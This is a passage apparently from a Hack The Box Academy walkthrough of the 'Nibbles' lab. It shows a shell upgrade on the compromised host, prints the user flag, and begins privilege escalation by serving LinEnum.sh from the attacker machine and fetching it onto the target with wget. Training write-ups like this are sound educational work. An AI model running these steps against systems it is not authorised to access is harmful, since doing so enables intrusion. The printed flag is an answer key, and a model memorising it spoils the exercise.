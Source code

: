  ```
 $ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -la
<ml/nibbleblog/content/private/plugins/my_image$ ls                    -la   
total 16
drwxr-xr-x 2 nibbler nibbler 4096 Nov  7 23:32 .
drwxr-xr-x 7 nibbler nibbler 4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler  258 Nov  7 23:32 db.xml
-rw-r--r-- 1 nibbler nibbler  100 Nov  7 23:32 image.php
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /
<ml/nibbleblog/content/private/plugins/my_image$ cd /     
nibbler@Nibbles:/$ cd /home
cd /home
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
79c03865431abf47b90ef24b9695e148

```
flag : `79c03865431abf47b90ef24b9695e148`

EX2 :  Escalate privileges and submit the root.txt flag.
Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the `personal.zip` file and see a file called `monitor.sh`. Then you use `wget` to get the LinEnum.sh
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

```

then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Back on the target type wget <a>http://10.10.14.62:8080/LinEnum.sh</a> to download the script
```
nibbler@Nibbles:/home/nibbler$ wget http://10.10.14.62:8080/LinEnum.sh
wget http://10.10.14.62:8080/LinEnum.sh
--2024-11-08 04:10:03--  http://10.10.14.62:8080/LinEnum.sh
Connecting to 10.10.14.62:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2024-11-08 04:10:03 (326 KB/s) - 'LinEnum.sh' saved [46631/46631]

```
